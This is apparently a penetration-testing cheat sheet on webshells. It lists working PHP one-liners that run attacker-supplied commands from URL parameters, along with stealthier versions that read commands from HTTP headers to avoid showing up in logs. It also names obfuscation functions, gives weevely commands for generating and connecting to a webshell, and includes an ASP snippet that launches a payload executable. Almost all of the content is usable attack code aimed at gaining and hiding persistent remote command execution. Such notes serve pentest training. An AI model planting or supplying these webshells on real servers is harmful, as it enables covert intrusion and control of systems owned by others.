 # Webshell

A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 (and 443). It is also a bit more stealthy than a reverse shell on other ports since the traffic is hidden in the http traffic.

You have access to different kinds of webshells on Kali here:

```
/usr/share/webshells
```

## PHP

This code can be injected into pages that use php.
```php

# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

### Make it stealthy

We can make the commands from above a bit more stealthy. Instead of passing the cmds through the url, which will be obvious in logs, we cna pass them through other header-paramters. The use tampterdata or burpsuite to insert the commands. Or just netcat or curl.

```php
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
<?php system($_SERVER['HTTP_USER_AGENT'])?>
```

### Obfuscation

The following functions can be used to obfuscate the code.

eval()
assert()
base64()
gzdeflate()
str_rot13()


### Weevely - Incredible tool!

Using weevely we can create php webshells easily.

```
weevely generate password /root/webshell.php
```

Not we execute it and get a shell in return:

```
weevely "http://192.168.1.101/webshell.php" password
```

## ASP

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```


## References

http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/
http://www.binarytides.com/web-shells-tutorial/